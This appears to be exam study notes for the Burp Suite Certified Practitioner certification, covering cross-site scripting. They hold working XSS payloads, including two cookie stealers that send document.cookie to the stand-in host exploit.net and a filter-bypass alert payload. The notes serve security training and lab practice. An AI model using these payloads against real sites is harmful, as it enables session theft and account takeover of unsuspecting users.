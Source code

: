 
# Burp-Suite-Certified-Practitioner-Exam-Study
Burp Suite Certified Practitioner Exam Study Notes

## Cross Site Scripting

### Cookie Stealers

Blog post comment section
```html
<img src="1" onerror="window.location='http://exploit.net/cookie='+document.cookie">
```
Product and Store lookup
```html
?productId=1&storeId="></select><img src=x onerror=this.src='http://exploit.net/?'+document.cookie;>
```
Bypass JavaScript replace()
```JavaScript
<><img src=1 onerror=alert(1)>
```